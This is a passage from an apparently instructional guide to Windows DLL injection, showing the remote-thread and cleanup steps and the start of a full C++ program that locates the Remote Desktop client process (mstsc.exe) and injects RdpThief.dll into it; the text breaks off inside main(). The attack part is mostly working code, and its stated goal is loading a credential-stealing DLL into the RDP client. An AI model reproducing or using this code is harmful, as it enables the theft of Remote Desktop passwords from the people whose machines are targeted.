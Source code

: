 7. **Create a Remote Thread:**

   Create a remote thread in the target process that calls `LoadLibraryW` with the DLL path as an argument:

   ```cpp
   HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibraryW, pRemoteMemory, 0, NULL);
   if (hThread == NULL) {
       std::wcerr << L"Failed to create remote thread." << std::endl;
       VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
       CloseHandle(hProcess);
       return 1;
   }

   WaitForSingleObject(hThread, INFINITE);
   ```

8. **Clean Up:**

   After the thread has completed execution, free the allocated memory and close handles:

   ```cpp
   VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
   CloseHandle(hThread);
   CloseHandle(hProcess);
   ```

9. **Full Example Code:**

   Here's the full code to inject `RdpThief.dll` into the `mstsc.exe` process:

   ```cpp
   #include <windows.h>
   #include <tlhelp32.h>
   #include <iostream>
   #include <string>

   DWORD FindProcessId(const std::wstring& processName) {
       PROCESSENTRY32 processInfo;
       processInfo.dwSize = sizeof(processInfo);

       HANDLE processesSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
       if (processesSnapshot == INVALID_HANDLE_VALUE) {
           return 0;
       }

       Process32First(processesSnapshot, &processInfo);
       if (processName == processInfo.szExeFile) {
           CloseHandle(processesSnapshot);
           return processInfo.th32ProcessID;
       }

       while (Process32Next(processesSnapshot, &processInfo)) {
           if (processName == processInfo.szExeFile) {
               CloseHandle(processesSnapshot);
               return processInfo.th32ProcessID;
           }
       }

       CloseHandle(processesSnapshot);
       return 0;
   }

   int main() {
       std::wstring dllPath = L"C:\\path\\to\\RdpThief.dll";
       std::wstring targetProcess = L"mstsc.exe";

   ```